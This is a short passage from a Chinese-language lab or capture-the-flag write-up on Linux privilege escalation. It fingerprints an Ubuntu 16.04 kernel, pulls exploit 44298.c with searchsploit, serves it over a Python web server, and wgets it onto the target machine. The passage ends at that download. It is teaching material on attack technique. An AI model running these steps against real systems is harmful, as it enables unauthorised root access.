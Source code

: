 

* 查看内核版本及操作系统版本：

```sh
uname -a
lsb_release -a
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230630161859489.png)

内核版本为4.4.0-93，系统版本为ubuntu16.04

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230630162035164.png)







* 查看是否存在gcc和版本

```sh
gcc --version
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230630162058464.png)



搜索ubuntu 16.04存在的漏洞：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230630163926335.png)



把exp下载到本地：

```sh
searchsploit -m 44298.c
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230630172752982.png)



本地用python起一个web服务：

```sh
python2 -m SimpleHTTPServer 8000
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230630173048686.png)



靶机上cd到tmp目录下载exp

```sh
cd /tmp
wget http://192.168.101.128:8000/44298.c
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230630173213371.png)
